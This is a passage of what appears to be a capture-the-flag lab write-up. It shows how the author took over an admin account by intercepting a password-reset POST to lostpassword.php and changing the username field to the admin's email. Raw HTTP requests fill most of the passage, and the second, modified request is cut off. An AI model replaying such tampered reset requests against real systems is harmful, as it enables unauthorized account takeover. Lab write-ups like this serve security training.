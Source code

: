 The /v2 had a login page that allowed me to register for an account. I registered for an account with creds email@gmail.com:test as well as a random set of numbers for phone number. Looking around the site, I wasnt able to interact much. The ```Profile``` page talked about a user named ```admin``` with email ```admin@sky.thm```. 
```
Right now, only admin has access to this feature. Please drop an email to admin@sky.thm in case of any changes.
```
With the admin email, I can now try to reset its password using the ```ResetUser``` page. When a user requests a new password, it sends a POST request to ```lostpassword.php``` with the data below. 

```
POST /v2/lostpassword.php HTTP/1.1
Host: [REDACTED]
Content-Length: 540
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[REDACTED]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdvYN3WHUb0ERBBw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[REDACTED]/v2/ResetUser.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=o4uhk2qg369vgql7s0lebn91cj; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Connection: close

------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="uname"

email@gmail.com
------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="npass"

test
------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="cpass"

test
------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="ci_csrf_token"


------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="send"

Submit
------WebKitFormBoundaryxdvYN3WHUb0ERBBw--
```
Therefore, I can change the ```uname``` form-data to be ```admin@sky.thm```. 
```
POST /v2/lostpassword.php HTTP/1.1
Host: 10.10.131.37
Content-Length: 540
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.131.37
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdvYN3WHUb0ERBBw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```